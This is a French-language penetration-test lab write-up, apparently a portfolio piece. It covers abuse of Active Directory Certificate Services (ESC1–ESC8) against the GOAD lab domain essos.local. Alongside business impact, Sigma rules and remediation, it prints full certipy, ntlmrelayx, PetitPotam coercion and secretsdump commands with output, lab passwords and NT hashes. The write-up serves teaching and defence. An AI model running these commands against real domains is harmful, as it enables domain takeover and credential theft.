




# SC-AD-008 — ADCS Certificate Abuse

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-008 |
| **Titre** | ADCS Certificate Abuse |
| **Référence Mayfly** | [Part 6 — ADCS](https://mayfly277.github.io/posts/GOADv2-pwning-part6/) |
| **Certifications** | CRTE |
| **Sévérité** | Critique (CVSS 3.1 : 9.8) |
| **MITRE ATT&CK** | T1649, T1558, T1557.001 |
| **Domaine compromis** | essos.local |
| **Date d'exécution** | 8 mars 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre l'exploitation de **6 vulnérabilités ADCS** (Active Directory Certificate Services) sur un environnement multi-domaines. À partir d'un simple compte utilisateur du domaine, l'attaquant obtient Domain Admin via des certificats numériques mal configurés. ADCS est le vecteur le plus exploité en 2025-2026 sur les environnements AD d'entreprise — les templates de certificats sont déployés par défaut et rarement audités. Les 6 techniques (ESC1, ESC2, ESC3, ESC4, ESC6, ESC8) couvrent l'ensemble du spectre : mauvaise configuration de templates, permissions excessives sur la CA, et NTLM relay vers le web enrollment. Toutes les attaques sont réalisées depuis Linux avec certipy et Impacket, sans écriture disque sur les cibles.

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.8.3 (Restriction des accès privilégiés)** : le template ESC1 permet à tout membre de Domain Users de demander un certificat au nom d'Administrator. L'attribut `EnrolleeSuppliesSubject` est activé sur un template avec Client Authentication EKU et les droits d'enrollment sont accordés à tous les utilisateurs du domaine. C'est une violation directe du principe de moindre privilège.
- **ISO 27001 — A.8.24 (Utilisation de la cryptographie)** : le flag `EDITF_ATTRIBUTESUBJECTALTNAME2` (ESC6) sur la CA ESSOS-CA permet de contourner les restrictions de tous les templates en spécifiant un SAN arbitraire. C'est une faiblesse cryptographique systémique — chaque template devient exploitable.
- **NIS2 — Article 21 (Gestion des risques)** : l'exposition du web enrollment HTTP sans chiffrement (ESC8) permet un relay NTLM qui aboutit à l'obtention d'un certificat de contrôleur de domaine. L'absence de HTTPS sur un service aussi critique constitue un manquement aux mesures de sécurité de base.
- **NIS2 — Article 23 (Notification des incidents)** : les 6 techniques aboutissent toutes à un accès Domain Admin complet avec extraction des credentials NTDS.dit, constituant un incident majeur devant être notifié dans les 24 heures.

### Pour un RSSI

Six vulnérabilités ADCS testées, toutes exploitables avec un compte Domain User standard. ESC1 est la plus directe : 2 commandes certipy pour DA. ESC8 est la plus dangereuse en entreprise : relay NTLM vers web enrollment HTTP, aucun credential requis côté attaquant. ESC4 démontre que les permissions sur les templates sont aussi critiques que les templates eux-mêmes. ESC6 transforme TOUS les templates en vecteurs d'attaque via un seul flag CA. Recommandation immédiate : auditer l'intégralité de l'infrastructure PKI avec `certipy find -vulnerable`, désactiver `EnrolleeSuppliesSubject` sur tous les templates custom, forcer HTTPS sur le web enrollment, et supprimer `EDITF_ATTRIBUTESUBJECTALTNAME2`.

---

## Contexte — Pourquoi l'ADCS est critique en 2026

L'ADCS est le vecteur d'attaque le plus exploité sur les environnements AD d'entreprise en 2025-2026. Contrairement aux attaques Kerberos classiques ([SC-AD-007](SC-AD-007-kerberos-delegation.md)) qui nécessitent des configurations de délégation spécifiques, les vulnérabilités ADCS sont présentes **par défaut** dans la plupart des déploiements AD. Les templates de certificats sont rarement audités, le web enrollment est souvent activé en HTTP, et les permissions CA sont laissées en configuration par défaut.

Les attaques ADCS produisent des **certificats légitimes** — indistinguables des certificats normaux. Aucun antivirus, aucun EDR ne détecte un certificat valide émis par la CA de l'entreprise.

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — domaine essos.local, CA sur BRAAVOS |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | certipy v5.0.3, Impacket v0.14 (ntlmrelayx, secretsdump), coercer v2.4.3 |
| **Référence** | mayfly277 GOAD Part 6 |
| **Approche** | Exploitation manuelle — pas de Metasploit |

---

## Phases d'exploitation

### Phase 1 — Énumération ADCS

**1. Vérification des credentials essos.local**

```bash
netexec smb 192.168.10.12 -u 'khal.drogo' -p 'horse' -d essos.local
```

```
SMB  192.168.10.12  445  MEEREEN  [+] essos.local\khal.drogo:horse
```

**2. Énumération complète ADCS avec certipy**

```bash
certipy find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -stdout -vulnerable
```

Résultats :

| Niveau | Vulnérabilité | Cible |
|--------|---------------|-------|
| CA | ESC6 | User Specified SAN activé sur ESSOS-CA |
| CA | ESC8 | Web Enrollment HTTP activé |
| CA | ESC11 | Encryption non enforced pour ICPR |
| Template | ESC1 | EnrolleeSuppliesSubject + Client Auth |
| Template | ESC2 | Any Purpose EKU |
| Template | ESC3 | Certificate Request Agent (ESC3-CRA) |
| Template | ESC4 | khal.drogo Full Control sur template |
| Template | ESC9 | NoSecurityExtension |
| Template | ESC15 | WebServer schema v1 |

---

### Phase 2 — ESC1 : Enrollee Supplies Subject

Le template ESC1 a `EnrolleeSuppliesSubject: True` + `Client Authentication` EKU + enrollment rights pour Domain Users. N'importe quel utilisateur du domaine peut demander un certificat au nom d'Administrator.

**3. Demande de certificat en tant qu'Administrator**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template ESC1 -upn administrator@essos.local
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
[*] Wrote certificate and private key to 'administrator.pfx'
```

**4. Authentification avec le certificat → hash NT**

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.10.12
```

```
[*] Got TGT
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

**5. Validation Pwn3d!**

```bash
netexec smb 192.168.10.12 -u 'administrator' -H '54296a48cd30259cc88095373cec24da' -d essos.local
```

```
SMB  192.168.10.12  445  MEEREEN  [+] essos.local\administrator:54296a48cd30259cc88095373cec24da (Pwn3d!)
```

DA essos.local en 2 commandes certipy.

---

### Phase 3 — ESC4 : GenericWrite sur Template

khal.drogo a Full Control sur le template ESC4. On le modifie pour le rendre vulnérable à ESC1, on l'exploite, puis on restaure.

**6. Sauvegarde et modification du template ESC4**

```bash
certipy template -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -template ESC4 -write-default-configuration -force
```

```
[*] Saving current configuration to 'ESC4.json'
[*] Wrote current configuration for 'ESC4' to 'ESC4.json'
[*] Successfully updated 'ESC4'
```

Certipy applique la configuration ESC1 par défaut au template ESC4 (EnrolleeSuppliesSubject + Client Auth) et sauvegarde l'original dans `ESC4.json`.

**7. Exploitation du template modifié**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template ESC4 -upn administrator@essos.local
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
```

**8. Restauration du template original**

```bash
certipy template -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -template ESC4 -write-configuration ESC4.json -force
```

```
[*] Successfully updated 'ESC4'
```

---

### Phase 4 — ESC6 : EDITF_ATTRIBUTESUBJECTALTNAME2

La CA ESSOS-CA a le flag `User Specified SAN: Enabled`. Ce flag permet de spécifier un SAN arbitraire sur **tout** template, même ceux sans `EnrolleeSuppliesSubject`. Le template `User` standard devient exploitable.

**9. Exploitation via le template User standard**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template User -upn administrator@essos.local
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
```

Un template considéré "sûr" (User) devient un vecteur d'attaque à cause d'un seul flag CA.

---

### Phase 5 — ESC3 : Certificate Request Agent

Le template ESC3-CRA a le EKU `Certificate Request Agent` qui permet de demander des certificats au nom d'autres utilisateurs.

**10. Obtention du certificat agent**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template ESC3-CRA
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'khal.drogo@essos.local'
[*] Wrote certificate and private key to 'khal.drogo.pfx'
```

**11. Demande on-behalf-of Administrator**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template User -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
```

---

### Phase 6 — ESC2 : Any Purpose Template

Le template ESC2 a le EKU `Any Purpose` — il peut servir comme agent de requête (comme ESC3).

**12. Obtention du certificat Any Purpose**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template ESC2
```

```
[*] Successfully requested certificate
[*] Wrote certificate and private key to 'khal.drogo.pfx'
```

**13. Demande on-behalf-of Administrator**

```bash
certipy req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.10.12 -target 192.168.10.23 -ca ESSOS-CA -template User -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@essos.local'
```

---

### Phase 7 — ESC8 : NTLM Relay vers Web Enrollment

Le web enrollment est accessible en HTTP sur BRAAVOS. On relay l'authentification NTLM de MEEREEN$ (coercion PetitPotam) vers le web enrollment pour obtenir un certificat DC.

**14. Vérification web enrollment**

```bash
curl -k -s -o /dev/null -w "%{http_code}" http://192.168.10.23/certsrv/certfnsh.asp
```

```
401
```

Web enrollment actif et accessible.

**15. Lancement ntlmrelayx (Terminal 1)**

```bash
impacket-ntlmrelayx -t http://192.168.10.23/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

**16. Coercion PetitPotam (Terminal 2)**

```bash
coercer coerce -u missandei -p 'fr3edom' -d essos.local -l 10.10.10.2 -t 192.168.10.12 --always-continue
```

Résultat ntlmrelayx :

```
[*] (SMB): Authenticating connection from ESSOS/MEEREEN$@192.168.10.12 against http://192.168.10.23 SUCCEED
[*] http://ESSOS/MEEREEN$@192.168.10.23 [1] -> GOT CERTIFICATE! ID 8
[*] http://ESSOS/MEEREEN$@192.168.10.23 [1] -> Writing PKCS#12 certificate to ./MEEREEN.pfx
[*] http://ESSOS/MEEREEN$@192.168.10.23 [1] -> Certificate successfully written to file
```

**17. Authentification avec le certificat DC**

```bash
certipy auth -pfx MEEREEN.pfx -dc-ip 192.168.10.12
```

```
[*] Got TGT
[*] Got hash for 'meereen$@essos.local': aad3b435b51404eeaad3b435b51404ee:c487f22308bbc67fca3d57a504c62a9a
```

**18. DCSync avec le hash machine DC**

```bash
impacket-secretsdump 'essos.local/meereen$@192.168.10.12' -hashes 'aad3b435b51404eeaad3b435b51404ee:c487f22308bbc67fca3d57a504c62a9a' -just-dc-user 'ESSOS\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

---

## Credentials récupérés

| Compte | Hash | Domaine | Méthode |
|--------|------|---------|---------|
| Administrator (ESSOS) | `54296a48cd30259cc88095373cec24da` | essos.local | ESC1/ESC2/ESC3/ESC4/ESC6 → certipy auth |
| MEEREEN$ | `c487f22308bbc67fca3d57a504c62a9a` | essos.local | ESC8 → NTLM relay → certipy auth |

---

## Impact technique

- **ADCS = le vecteur #1 en 2026** : contrairement aux attaques Kerberos qui nécessitent des configurations de délégation spécifiques, les vulnérabilités ADCS sont présentes par défaut. Les templates sont rarement audités.
- **Certificats légitimes** : les certificats obtenus sont indistinguables des certificats normaux. Aucun EDR ne détecte un certificat valide émis par la CA de l'entreprise.
- **ESC1 = 2 commandes pour DA** : le plus simple et le plus impactant. Un Domain User standard obtient DA en 30 secondes.
- **ESC6 = tous les templates vulnérables** : un seul flag CA transforme chaque template en vecteur d'attaque, même les templates par défaut considérés "sûrs".
- **ESC8 = pas de credential requis** : la coercion + relay NTLM ne nécessite aucun password côté attaquant pour l'authentification relayée.
- **ESC4 = permissions = clé** : Full Control sur un template = capacité de le rendre vulnérable à ESC1, l'exploiter, puis restaurer sans trace.

---

## Impact métier — MediaTech Groupe SA

### Synthèse narrative

L'infrastructure PKI de MediaTech Groupe SA présente des vulnérabilités systémiques. Un simple utilisateur du domaine peut obtenir un certificat d'authentification au nom du Domain Administrator en moins de 30 secondes. Les certificats générés sont indistinguables des certificats légitimes et permettent un accès persistant — un certificat a une durée de validité d'un an, bien au-delà de la durée d'un mot de passe. L'attaquant peut revenir à tout moment pendant cette durée sans déclencher d'alerte.

### Estimation financière

| Poste | Estimation |
|-------|-----------|
| Compromission PKI complète (reconstruction CA) | 300 000 — 800 000 € |
| Révocation et remplacement de tous les certificats | 100 000 — 300 000 € |
| Interruption services dépendant de PKI (VPN, WiFi, SSO) | 200 000 — 500 000 € |
| Investigation forensique (certificats forgés) | 100 000 — 250 000 € |
| Notification RGPD | 50 000 — 150 000 € |
| Perte de confiance / réputation | 300 000 — 1 000 000 € |
| **Total estimé** | **1 050 000 — 3 000 000 €** |

### Matrice de risque



### Impact réglementaire

- **RGPD (Article 32)** : les certificats forgés permettent un accès persistant à toutes les données personnelles du domaine pendant un an. L'absence d'audit PKI constitue un manquement à l'obligation de sécurité appropriée.
- **NIS2 (Article 21)** : l'exposition du web enrollment en HTTP et l'absence de restriction sur les templates de certificats démontrent un défaut de gestion des risques cyber fondamental.
- **ISO 27001 (A.8.24)** : l'utilisation de la cryptographie (PKI/certificats) sans contrôles adéquats sur l'émission et la validation des certificats viole les exigences de gestion cryptographique.

### Top 5 actions prioritaires

**0-24h (urgence)**
1. Auditer immédiatement tous les templates avec `certipy find -vulnerable` et désactiver `EnrolleeSuppliesSubject` sur tous les templates custom
2. Forcer **HTTPS** sur le web enrollment et désactiver HTTP (bloque ESC8)

**1 semaine**
3. Supprimer le flag `EDITF_ATTRIBUTESUBJECTALTNAME2` sur toutes les CA (bloque ESC6)
4. Restreindre les enrollment rights — supprimer Domain Users des templates sensibles

**1 mois**
5. Implémenter un audit PKI trimestriel avec certipy + revue des permissions CA (ManageCa, ManageCertificates) + monitoring des Event IDs 4886/4887

### Décisions attendues du COMEX

- **Valider le budget** pour un audit PKI complet — estimation 2-3 jours/homme.
- **Mandater la DSI** pour la migration du web enrollment vers HTTPS et la révocation des templates vulnérables.
- **Approuver la politique** de revue trimestrielle des templates et permissions CA.

---

## Détection SOC / SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 4886 | Security | Certificate request received — surveiller les requêtes avec SAN arbitraire |
| 4887 | Security | Certificate issued — corréler avec 4886 pour les SAN suspects |
| 4768 | Security | TGT request via PKINIT — authentification par certificat |
| 4624 | Security | Logon avec certificat — vérifier si le certificat correspond à l'utilisateur |

### Règles Sigma

```yaml
title: ADCS ESC1 - Certificate Request with Arbitrary SAN
id: sc-ad-008-001
status: experimental
description: Détecte les demandes de certificats avec un SAN différent de l'identité du demandeur
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4886
    filter:
        SubjectUserName|endswith: '$'
    condition: selection and not filter
level: high
tags:
    - attack.credential_access
    - attack.t1649
```

```yaml
title: ADCS ESC8 - NTLM Relay to Web Enrollment
id: sc-ad-008-002
status: experimental
description: Détecte l'authentification NTLM vers le web enrollment ADCS depuis une IP externe
logsource:
    product: windows
    service: security
    category: webserver
detection:
    selection:
        cs-uri-stem|contains: '/certsrv/certfnsh.asp'
        cs-method: 'POST'
    condition: selection
level: critical
tags:
    - attack.credential_access
    - attack.t1557.001
```

```yaml
title: ADCS Template Modification
id: sc-ad-008-003
status: experimental
description: Détecte la modification d'un template de certificat (ESC4)
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName|contains:
            - 'msPKI-Certificate-Name-Flag'
            - 'msPKI-Enrollment-Flag'
            - 'pKIExtendedKeyUsage'
    condition: selection
level: critical
tags:
    - attack.persistence
    - attack.t1649
```

### IOC

| Type | Valeur | Contexte |
|------|--------|----------|
| Template flag | `EnrolleeSuppliesSubject: True` + Client Auth | ESC1 |
| CA flag | `EDITF_ATTRIBUTESUBJECTALTNAME2` | ESC6 |
| HTTP endpoint | `/certsrv/certfnsh.asp` accessible en HTTP | ESC8 |
| Template permission | Full Control pour un user standard | ESC4 |
| EKU | `Any Purpose` ou `Certificate Request Agent` | ESC2/ESC3 |
| Commande | `certipy req -upn administrator@...` | ESC1 exploitation |

---

## Remédiation Secure by Design

### 0-24h (urgence)

- Désactiver `EnrolleeSuppliesSubject` sur tous les templates custom
- Forcer HTTPS sur le web enrollment : `certutil -setreg CA\EnforceEncryptForRequests 1`
- Redémarrer le service CA après modification

### 1 semaine

- Supprimer `EDITF_ATTRIBUTESUBJECTALTNAME2` :
  ```powershell
  certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
  net stop certsvc && net start certsvc
  ```
- Restreindre enrollment rights — supprimer Domain Users des templates ESC1/ESC2/ESC3/ESC4
- Supprimer les permissions Full Control de khal.drogo sur le template ESC4
- Révoquer les templates ESC2 et ESC3-CRA si non nécessaires métier

### 1 mois

- Audit PKI trimestriel avec `certipy find -vulnerable`
- Implémenter le monitoring SIEM des Event IDs 4886/4887
- Configurer `Requires Manager Approval: True` sur les templates sensibles
- Documenter chaque template actif avec justification métier
- Tester la désactivation du web enrollment si non requis

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 6 ADCS](https://mayfly277.github.io/posts/GOADv2-pwning-part6/)
- [mayfly277 — GOAD Part 14 ADCS Avancé](https://mayfly277.github.io/posts/ADCS-part14/)
- [SpecterOps — Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Oliver Lyak — Certipy Wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
- [HackTricks — ADCS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
- [The Hacker Recipes — ADCS](https://www.thehacker.recipes/ad/movement/adcs)
- [MITRE ATT&CK T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [BloodHound — ADCS ESC1](https://bloodhound.specterops.io/resources/edges/adcs-esc1)

---

*HikenRoot Forge — SC-AD-008 — Nadyr Chouarhi (hik3nR00t) — Mars 2026*
